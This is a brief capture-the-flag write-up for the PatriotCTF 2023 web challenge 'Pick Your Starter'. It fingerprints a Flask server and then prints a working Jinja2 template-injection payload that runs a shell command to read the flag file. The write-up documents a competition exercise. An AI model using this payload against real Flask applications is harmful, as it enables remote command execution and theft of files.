 
# Web


## Pick Your Starter


### Info

Picking a starter is hard, I hope you can do it.

_Flag format: PCTF{}_

_Author: @angr404_

[http://chal.pctf.competitivecyber.club:5555](http://chal.pctf.competitivecyber.club:5555/){:target='_blank'}

### Solve

```bash
┌──(bravosec㉿fsociety)-[/media/sf_kali-share/patriotctf2023/nuclei_9090]
└─$ whatweb -a 3 http://chal.pctf.competitivecyber.club:5555
http://chal.pctf.competitivecyber.club:5555 [200 OK] Country[UNITED STATES][US], HTML5, HTTPServer[Werkzeug/2.3.7 Python/3.11.5], IP[184.72.110.40], Python[3.11.5], Title[Select Your Starter Pokémon], Werkzeug[2.3.7]
```

Since it's a Flask server, discovered **SSTI** first

![](/assets/obsidian/8080a4e6ab93248138a2d335cb1db0a4.png){:target='_blank'}

Tried some `subclasses` and `builtins` script, didn't work

Worked :

```bash
http 'http://chal.pctf.competitivecyber.club:5555/{{lipsum.__globals__.os.popen(request.args.c).read()}}?c=cat /flag.txt'
```

![](/assets/obsidian/0a5742f0be540b7cfac39743ba3e082c.png){:target='_blank'}
